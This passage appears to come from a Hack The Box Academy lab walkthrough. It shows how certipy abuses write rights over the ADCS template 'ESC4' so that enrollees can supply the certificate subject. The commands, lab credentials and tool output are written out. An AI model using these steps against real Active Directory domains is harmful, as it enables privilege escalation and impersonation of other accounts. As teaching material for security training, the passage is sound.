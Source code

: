 ```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC4`, students need to use the `template` command of `certipy`, specifying the template `ESC4` for the `-template` option:

Code: shell

```shell
certipy template -u blwasp@lab.local -p Password123! -template ESC4
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy template -u blwasp@lab.local -p Password123! -template ESC4

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

`certipy` will abuse the privileges that `blwasp` has over the `ESC4` template to render it vulnerable to `ESC1`, `ESC2`, and `ESC3`; therefore, when using the `find` command to enumerate the ADCS CA for vulnerabilities, students will discover that the field `Certificate Name Flag` has the value `EnrolleeSuppliesSubject`:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.249.206 -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.249.206 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP> 
 2
    Template Name                       : ESC4
    Display Name                        : ESC4
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
```